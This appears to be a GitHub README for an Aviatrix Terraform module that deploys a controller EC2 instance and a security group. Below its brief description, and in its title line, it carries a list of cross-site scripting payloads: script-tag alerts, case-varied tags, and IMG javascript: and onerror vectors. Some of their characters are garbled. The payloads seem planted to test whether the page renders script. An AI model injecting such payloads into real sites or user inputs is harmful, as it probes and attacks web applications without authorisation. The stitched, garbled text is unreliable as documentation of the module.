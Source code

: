 ## Aviatrix - Terraform Modules - Controller\<\"\u0020<script>

### Description
This Terraform module creates an Aviatrix Controller and related components for a BYOL environment. The components
created include:

* One Aviatrix Controller EC2 Instance (named AviatrixController)
* One Aviatrix Security Group (named AviatrixSecurityGroup)

<script>alert(123);</script>
<ScRipT>alert("XSS");</ScRipT>
<script>alert(123)</script>
<script>alert("hellox worldss");</script>
<script>alert(�XSS�)</script> 
<script>alert(�XSS�);</script>
<script>alert(�XSS�)</script>
�><script>alert(�XSS�)</script>
<script>alert(/XSS�)</script>
<script>alert(/XSS/)</script>
</script><script>alert(1)</script>
�; alert(1);
�)alert(1);//
<ScRiPt>alert(1)</sCriPt>
<IMG SRC=jAVasCrIPt:alert(�XSS�)>
<IMG SRC=�javascript:alert(�XSS�);�>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=javascript:alert(�XSS�)>      
<img src=xss onerror=alert(1)>
